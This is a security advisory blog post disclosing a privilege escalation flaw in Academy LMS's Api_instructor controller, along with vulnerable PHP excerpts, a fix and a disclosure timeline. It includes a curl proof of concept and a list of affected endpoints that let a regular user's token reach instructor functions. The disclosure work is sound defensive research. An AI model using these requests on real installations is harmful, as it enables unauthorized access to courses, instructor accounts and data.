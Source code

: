 ```yaml
---
title: "Privilege Escalation Vulnerability in Academy LMS Api_instructor Controller"
date: 2025-07-20
tags: ["security", "privilege-escalation", "academy-lms", "vulnerability"]
categories: ["Security Research"]
draft: false
---
```


## Overview

A significant privilege escalation vulnerability has been identified in Academy LMS versions up to and including 5.13, allowing regular users to access instructor-only functionality without proper authorization.

## Technical Details

**CVE ID:** Pending Assignment  
**CVSS Score:** 8.6 (High)  
**Affected Versions:** Academy LMS ≤ v5.13  
**Vulnerability Type:** Privilege Escalation / Access Control Bypass  

### Affected Component
- File: `lms/application/controllers/Api_instructor.php`
- Lines: 20, 47, 91, 110, 124, 135, 148, 155, 168, 181, 195

### Vulnerability Description

The Api_instructor controller fails to properly validate user roles before granting access to instructor-specific functions. While the system checks for valid JWT tokens, it does not verify the `is_instructor=1` flag in the user's database record, allowing any authenticated user to access instructor functionality.

### Vulnerable Source Code

```php
// From lms/application/controllers/Api_instructor.php:20-35
public function token_data_get($auth_token)
{
  if (isset($auth_token)) {
    try {
      $jwtData = $this->tokenHandler->DecodeToken($auth_token);
      return json_encode($jwtData);
    } catch (Exception $e) {
      echo 'catch';
      http_response_code('401');
      echo json_encode(array("status" => false, "message" => $e->getMessage()));
      exit;
    }
  } else {
    echo json_encode(array("status" => false, "message" => "Invalid Token"));
  }
}

// From lms/application/controllers/Api_instructor.php:47-54  
public function change_password_post()
{
  $response = array();
  if (isset($_POST['auth_token']) && !empty($_POST['auth_token']) /* ... */) {
    $auth_token = $_POST['auth_token'];
    $logged_in_user_details = json_decode($this->token_data_get($auth_token), true);
    if ($logged_in_user_details['user_id'] > 0) {
      // Missing: Check if user has is_instructor=1 flag
      $response = $this->api_instructor_model->change_password_post($logged_in_user_details['user_id']);
    }
  }
}
```

## Impact

A regular authenticated user can:
1. Create unlimited courses without instructor privileges
2. Modify existing course content
3. Access sensitive instructor data and analytics
4. Change instructor passwords and profile information
5. Manipulate course pricing and availability
6. Bypass the platform's business model entirely

## Affected Endpoints

The following API endpoints are vulnerable to privilege escalation:

```
GET  /lms/api_instructor/userdata
POST /lms/api_instructor/update_userdata
POST /lms/api_instructor/add_course
POST /lms/api_instructor/update_course
GET  /lms/api_instructor/courses
GET  /lms/api_instructor/token_data
POST /lms/api_instructor/change_password
POST /lms/api_instructor/change_profile_photo
GET  /lms/api_instructor/add_course_form
GET  /lms/api_instructor/edit_course_form
GET  /lms/api_instructor/update_course_status
```

## Proof of Concept

```bash
# 1. Login as regular user
curl -X POST "https://target.com/lms/api/login" \
  -d "email=regularuser@example.com&password=userpass"

# 2. Extract JWT token from response
JWT_TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9..."

# 3. Access instructor functionality (should fail but doesn't)
curl -X GET "https://target.com/lms/api_instructor/userdata?auth_token=${JWT_TOKEN}"

# 4. Create unauthorized course
curl -X POST "https://target.com/lms/api_instructor/add_course" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "auth_token=${JWT_TOKEN}&title=Unauthorized Course&description=Created by regular user"
```

## Root Cause Analysis

The vulnerability exists because the Api_instructor controller only performs the following check:

```php
// Insufficient validation - only checks JWT validity
if (!$this->jwt_model->validate_jwt_token()) {
    // Reject request
}
// Missing: Check if user has is_instructor=1 flag
```

The correct implementation should include:

```php
// Proper validation
if (!$this->jwt_model->validate_jwt_token()) {
    // Reject request
}

$user_data = $this->jwt_model->get_user_data_from_token();
if ($user_data['is_instructor'] != 1) {
    // Reject - user is not an instructor
}
```

## Mitigation

### Immediate Fix
Add proper instructor role validation to all methods in the Api_instructor controller:

```php
public function __construct() {
    parent::__construct();
    
    // Validate JWT token
    if (!$this->jwt_model->validate_jwt_token()) {
        http_response_code(401);
        echo json_encode(['error' => 'Unauthorized']);
        exit;
    }
    
    // Validate instructor role
    $user_data = $this->jwt_model->get_user_data_from_token();
    if (!isset($user_data['is_instructor']) || $user_data['is_instructor'] != 1) {
        http_response_code(403);
        echo json_encode(['error' => 'Insufficient privileges']);
        exit;
    }
}
```

### Best Practices
1. Implement role-based access control consistently
2. Use middleware for authorization checks
3. Validate user permissions at the database level
4. Implement proper error handling for authorization failures
5. Add audit logging for privilege escalation attempts

## Business Impact

This vulnerability can result in:
- Financial losses due to unauthorized course creation
- Compromise of the platform's business model
- Data exposure of instructor analytics and earnings
- Reputation damage and loss of user trust

## Timeline

- **Discovery:** July 2025 (During white box penetration testing)
- **Vendor Notification:** July 20, 2025 (Responsible disclosure to Creativeitem/Academy LMS team)
- **CVE Request Submitted:** July 20, 2025 (CVE number requested from MITRE)
- **Vendor Response:** Awaiting response from vendor
- **Public Disclosure:** July 20, 2025

*This vulnerability was discovered during a white box penetration test. Given that Academy LMS is a widely-used commercial template with many installations across different organizations, we decided to report this as a responsible disclosure to help protect all users of this platform.*

*This timeline will be updated accordingly as the responsible disclosure process progresses.*

## References

- [OWASP Access Control Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html)
- [Academy LMS Documentation](https://codecanyon.net/item/academy-learning-management-system/22703468)

## Credit

This vulnerability was discovered and responsibly disclosed by the security research team at suryadina.com.

---
*This post is part of our ongoing security research into popular Learning Management Systems. For more security insights, visit [https://suryadina.com](https://suryadina.com).*